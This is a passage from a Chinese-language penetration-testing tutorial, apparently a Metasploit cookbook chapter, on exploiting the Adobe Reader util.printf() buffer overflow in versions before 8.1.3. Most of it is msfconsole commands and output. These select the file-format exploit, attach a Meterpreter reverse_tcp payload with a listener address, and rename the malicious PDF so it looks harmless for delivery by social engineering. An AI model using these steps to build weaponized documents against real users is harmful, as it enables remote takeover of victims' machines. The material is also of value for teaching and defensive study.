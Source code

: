 # Adobe Reader util.printf（）缓冲区溢出

PDF 是共享文件和文档最广泛使用的格式之一。因此，将其作为一种潜在的武器来利用目标机器是一个富有成效的想法。Adobe Reader 是最流行的 PDF 文件阅读器工具。我们将在这里讨论的漏洞是 8.1.3 版之前的 Adobe Reader 中存在的漏洞。该漏洞的工作原理是创建恶意 PDF 文件，当在易受攻击的 Adobe Reader 版本中打开该文件时，会导致缓冲区溢出并允许执行任意代码。

## 准备好了吗

开发过程与我们在本章中讨论的过程非常相似。几乎所有客户端攻击的工作方式都与此类似，我们首先生成恶意文件/链接，然后以某种方式要求目标用户在其计算机上执行。因此，客户端攻击也涉及到社会工程。让我们继续讨论这个问题。这里，我们的目标机器是运行 Adobe Reader 8.1 版的 Windows XP SP3。

我们将从启动 msfconsole 开始，并将模块 `exploit/windows/fileformat/adobe_utilprintf`和有效负载模块用作 `windows/meterpreter/reverse_tcp`。

## 怎么做。。。

我们将首先选择漏洞并将其设置为活动。然后，我们将设置有效负载。在选择利用漏洞和有效负载之后，我们的下一步将是传递执行它所需的各种参数值。因此，让我们继续在 msfconsole 上执行这些步骤。

```
msf > use exploit/windows/fileformat/adobe_utilprintf
msf exploit(adobe_utilprintf) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(adobe_utilprintf) > show options
Module options (exploit/windows/fileformat/adobe_utilprintf):
Name Current Setting Required Description
---- --------------- -------- -----------
FILENAME msf.pdf yes The file name.
Payload options (windows/meterpreter/reverse_tcp):
Name Current Setting Required Description
---- --------------- -------- -----------
EXITFUNC process yes Exit technique: seh..
LHOST yes The listen address
LPORT 4444 yes The listen port
Exploit target:
Id Name
-- ----
0 Adobe Reader v8.1.2 (Windows XP SP3 English) 
```

如您所见，Adobe Reader 的目标版本列为 8.1.2，操作系统称为 Windows XP SP3。因此，此漏洞利用的成功与否在很大程度上取决于目标使用的版本或 Adobe Reader 以及操作系统。

漏洞模块包含一个带有默认值的参数 `FILENAME`。此参数决定将创建的恶意 PDF 文件的名称。让我们把它的价值换成不那么可疑的东西。我们还必须在 `LHOST`参数中传递本地机器的 IP 地址。

```
msf exploit(adobe_utilprintf) > set FILENAME progressreport.pdf
FILENAME => progressreprt.pdf
msf exploit(adobe_utilprintf) > set LHOST 192.168.56.101
LHOST => 192.168.56.101 
```

现在我们都准备好执行攻击命令并生成恶意 PDF 文件，该文件将用于客户端攻击。
